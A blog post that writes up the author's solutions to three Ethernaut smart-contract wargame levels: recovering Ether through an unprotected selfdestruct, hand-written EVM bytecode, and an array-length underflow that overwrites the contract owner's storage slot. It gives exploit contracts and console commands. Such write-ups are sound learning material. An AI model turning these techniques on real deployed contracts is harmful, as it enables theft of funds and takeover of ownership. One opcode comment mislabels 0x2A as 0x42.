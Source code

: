 ```yaml
---
layout: post
title:  Ethernaut challenges writeup Part IV (Challenges 17 to 19).
excerpt_separator: <!--more-->
category: DeFi
---
```


Continuing the saga for [Ethernaut](https://ethernaut.openzeppelin.com/) Solutions. My post for today explains how I solved challenges 17 to 19.

Enjoy!

<!--more-->

# Challenges write up

## Recovery

Another lovely level, at least for me. I really liked the idea of somehow "store" Ether into the void and later be able to recover it. The idea for this challenge is that we need to be able to calculate the address of a contract (a `SimpleToken` instance) that was created by the `Recovery` contract. I found out very quickly the concept behind this challenge because previously I thought that I needed to do the same (calculate a contract address) in challenge #14 "Gatekeeper Two".

Contract addresses are deterministically calculated, as explained in the solution using the following process:

`keccack256(address, nonce) where the address is the address of the contract (or ethereum address that created the transaction) and nonce is the number of contracts the spawning contract has created (or the transaction nonce, for regular transactions).`

Based on this I implemented the contract shown in the section below and tested if it correctly calculated some addresses. For this, I created a few tokens using `generateToken` function. Once I was sure that the function to calculate addresses was correct I assumed that the lost contract address was the first one created and the nonce == 1. With the address calculated I used method `destroy` which executes `selfdestruct` returning the stored Ether to an arbitrary account.

### Further Reading

- How to calculate an Ethereum Contract's address during its creation using the Solidity language? - https://ethereum.stackexchange.com/questions/24248/how-to-calculate-an-ethereum-contracts-address-during-its-creation-using-the-so

- http://martin.swende.se/blog/Ethereum_quirks_and_vulns.html

### Solution code:

```
contract RecoveryTokens {

    constructor(address _forgottenToken, address  _recoveryAddr) public{
        address tokenAddr = _forgottenToken;
        SimpleToken(payable(tokenAddr)).destroy(payable(_recoveryAddr));
    }

}

contract SimpleToken {

  // public variables
  string public name;
  mapping (address => uint) public balances;

  // constructor
  constructor(string memory _name, address _creator, uint256 _initialSupply) public {
    name = _name;
    balances[_creator] = _initialSupply;
  }

  // collect ether in return for tokens
  receive() external payable {
    balances[msg.sender] = msg.value;
  }

  // allow transfers of tokens
  function transfer(address _to, uint _amount) public { 
    require(balances[msg.sender] >= _amount);
    balances[msg.sender] = balances[msg.sender] - (_amount);
    balances[_to] = _amount;
  }

  // clean up after ourselves
  function destroy(address payable _to) public {
    selfdestruct(_to);
  }
}
```

## Magic number

There wasn't a lot of things to do in this level more than learn the basics to write a contract in bytecode. Both links in the "Further Reading" section helped me a lot to understand a contract's low level architecture and what I had to respect to make it work. I also was lucky to find a tool like "My Ether Wallet" which allowed me to deploy RAW bytecode very quickly to perform a lot of testing.

I used the following ABI extracted from Remix to be able to deploy my bytecode:

```
Solver's ABI:

[
	{
		"constant": false,
		"inputs": [],
		"name": "whatIsTheMeaningOfLife",
		"outputs": [
			{
				"internalType": "uint256",
				"name": "",
				"type": "uint256"
			}
		],
		"payable": false,
		"stateMutability": "nonpayable",
		"type": "function"
	}
]
```

And here is the bytecode for my solution. the first part is the boilerplate code that deploys the actual solver which is exactly 10 OPCODES long.

```
// Solver's bytecode:

60 0A   // PUSH 0x0A
60 0C   // PUSH 0x0C
60 00   // PUSH 0x00 
39      // CODECOPY    
60 0A   // PUSH 0x0A
60 00   // PUSH 0x00
F3      // RETURN

60 2A   // PUSH 0x42
60 00   // PUSH 0x00
52      // MSTORE
60 20   // PUSH 0x20
60 00   // PUSH 0x00
F3      // RETURN 

// 0x600A600C600039600A6000F3602A60005260206000F3
```

`Calldata` used to verify this level: `0xc882d7c2000000000000000000000000a4e31315212b45283b9c593a7b46b036a903786f`

### Useful tools

- My Ether Wallet - https://www.myetherwallet.com/wallet/deploy - Allows to deploy bytecode directly without any issues.
- Ethererum Virtual Machine IO - https://www.ethervm.io/
- SolMap - https://solmap.zeppelin.solutions/

### Further Reading

- EVM bytecode Programming (Excellent!) - https://hackmd.io/@e18r/r1yM3rCCd
- Deconstructing a Solidity Contract Series - https://blog.openzeppelin.com/deconstructing-a-solidity-contract-part-i-introduction-832efd2d7737/

## Alien Codex

The idea of this level is that we can underflow the size of the `bytes32[] public codex` array and with that have the possibility to write in arbitrary storage slots. Based on this primitive we can overwrite `slot 0` which holds the address of the contract's owner.

I won't describe how dynamic arrays are stored in the EVM, for that you can refer to the first link in the Further Reading section which helped me a lot understanding how things worked under the hood.

To solve this level I followed these steps:

```
await contract.make_contact() // make contact to be able to execute the other functions
```

Trigger the underflow in the `codex` array:

```
await contract.retract()
```

Now if we check the storage variable which holds the array size we should see `0xffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffff`.

```
await  web3.eth.getStorageAt(contract,1)
'0xffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffff'
```

With this step done we can write anywhere in storage simply calculating the address of the slot we want to change. I learned how to do this [here](https://github.com/Arachnid/uscc/tree/master/submissions-2017/doughoyte#converting-array-indices-to-addresses))

```Python
hex(2**256-keccak(0x01))

'0x4ef1d2ad89edf8c4d91132028e8195cdf30bb4b5053d4f8cd260341d4805f30a'
```

Once we have the result `0x4ef1d2ad89edf8c4d91132028e8195cdf30bb4b5053d4f8cd260341d4805f30a` we can use method `revise` to write our address (plus the 0x01 from the bool variable) in the destination slot.

```
await contract.revise("0x4ef1d2ad89edf8c4d91132028e8195cdf30bb4b5053d4f8cd260341d4805f30a", "0x000000000000000000000001922e34D7d34C70Df760DF873BC6F99a10dea516E") // Overwrite storage's Slot 0 (Owner + contact bool variable)
```

### Further Reading

- Understand Solidity Storage in depth - https://enderspub.kubertu.com/understand-solidity-storage-in-depth#dynamic-size-variables
- MerdeToken: It's Some Hot Shit - https://github.com/Arachnid/uscc/tree/master/submissions-2017/doughoyte
- How formal verification can ensure flawless smart contracts - https://media.consensys.net/how-formal-verification-can-ensure-flawless-smart-contracts-cbda8ad99bd1
- Solidity Attack - Array Underflow - https://medium.com/@fifiteen82726/solidity-attack-array-underflow-1dc67163948a#:~:text=What%20is%20underflow%3F,is%20undefined%20in%20many%20languages.
- Pay attention to the Ethereum hash collision problem from the "Stealing coins" incident - https://xlab.tencent.com/en/2018/11/09/pay-attention-to-the-ethereum-hash-collision-problem-from-the-stealing-coins-incident/
